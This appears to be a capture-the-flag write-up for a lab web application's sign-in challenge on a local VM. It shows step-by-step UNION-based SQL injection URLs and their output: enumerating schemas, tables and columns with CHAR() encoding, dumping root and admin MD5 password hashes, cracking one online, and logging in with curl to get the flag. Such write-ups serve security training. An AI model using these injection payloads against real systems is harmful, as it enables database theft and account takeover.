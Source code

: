 # SignIn Page

__http://192.168.56.101/index.php?page=signin__

## Description
This page show sign in form with username and password fields.

## Form Outputs
The [page](#http://192.168.56.101/?page=member&id=42%20union%20select%20column_name,%20column_type%20from%20information_schema.columns%20where%20table_schema=database()&Submit=Submit) return the list of members
We should use injections again
[select schema_name, 0 from information_schema.schemata](#http://192.168.56.101/index.php?page=member&id=-1%20union%20select%20schema_name,%200%20from%20information_schema.schemata&Submit=Submit)
```
ID: -1 union select schema_name, 0 from information_schema.schemata 
First name: information_schema
Surname : 0
ID: -1 union select schema_name, 0 from information_schema.schemata 
First name: Member_Brute_Force
Surname : 0
ID: -1 union select schema_name, 0 from information_schema.schemata 
First name: Member_Sql_Injection
Surname : 0
ID: -1 union select schema_name, 0 from information_schema.schemata 
First name: Member_guestbook
Surname : 0
ID: -1 union select schema_name, 0 from information_schema.schemata 
First name: Member_images
Surname : 0
ID: -1 union select schema_name, 0 from information_schema.schemata 
First name: Member_survey
Surname : 0
```
We get the following schemas:
1. information_schema
2. Member_Brute_Force
3. Member_Sql_Injection
4. Member_guestbook
5. Member_images
6. Member_survey

We need all tables of schema Member_Brute_Force and all columns.
Firstly we need ASCII orders of the Member_Brute_Force chars

``` python -c 'print([ord(c) for c in "Member_Brute_Force"]);'       
[77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101]
``` 
instead of using in select where table_schema='Member_Brute_Force'

we will request [select table_name,0 from information_schema.tables where table_schema=CHAR(77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101)](#http://192.168.56.101/index.php?page=member&id=-1%20union%20select%20table_name,0%20from%20information_schema.tables%20where%20table_schema=CHAR(77,%20101,%20109,%2098,%20101,%20114,%2095,%2066,%20114,%20117,%20116,%20101,%2095,%2070,%20111,%20114,%2099,%20101)&Submit=Submit)

we get the page with database db_default
```
ID: -1 union select table_name,0 from information_schema.tables where table_schema=CHAR(77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101) 
First name: db_default
Surname : 0
```
[select column_name,0 from information_schema.columns where table_schema=CHAR(77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101)](#http://192.168.56.101/index.php?page=member&id=-1%20union%20select%20column_name,0%20from%20information_schema.columns%20where%20table_schema=CHAR(77,%20101,%20109,%2098,%20101,%20114,%2095,%2066,%20114,%20117,%20116,%20101,%2095,%2070,%20111,%20114,%2099,%20101)&Submit=Submit)
```
ID: -1 union select column_name,0 from information_schema.columns where table_schema=CHAR(77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101) 
First name: id
Surname : 0
ID: -1 union select column_name,0 from information_schema.columns where table_schema=CHAR(77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101) 
First name: username
Surname : 0
ID: -1 union select column_name,0 from information_schema.columns where table_schema=CHAR(77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101) 
First name: password
Surname : 0
```
we get columns:
1. id
2. username
3. password

Let's check users [select username, password from Member_Brute_Force.db_default&Submit=Submit](#http://192.168.56.101/index.php?page=member&id=-1%20union%20select%20username,%20password%20from%20Member_Brute_Force.db_default&Submit=Submit)

```
ID: -1 union select username, password from Member_Brute_Force.db_default 
First name: root
Surname : 3bf1114a986ba87ed28fc1b5884fc2f8
ID: -1 union select username, password from Member_Brute_Force.db_default 
First name: admin
Surname : 3bf1114a986ba87ed28fc1b5884fc2f8
```
Surname is the same. Let's use the info

## Flag
The flag we've got is [shadow](#https://md5.gromweb.com/?md5=3bf1114a986ba87ed28fc1b5884fc2f8)

```
curl -s 'http://192.168.56.101/index.php?page=signin&username=admin&password=dummy&Login=Login' -o dummy.html
curl -s 'http://192.168.56.101/index.php?page=signin&username=admin&password=shadow&Login=Login' -o admin.html
diff admin.html dummy.html 
```
Inside the diff output html we get the flag


## Safety
Through this exercise, the importance of secure coding practices, input validation, and access control is highlighted. It emphasizes the need to sanitize user input and use proper authentication mechanisms to prevent SQL injection attacks.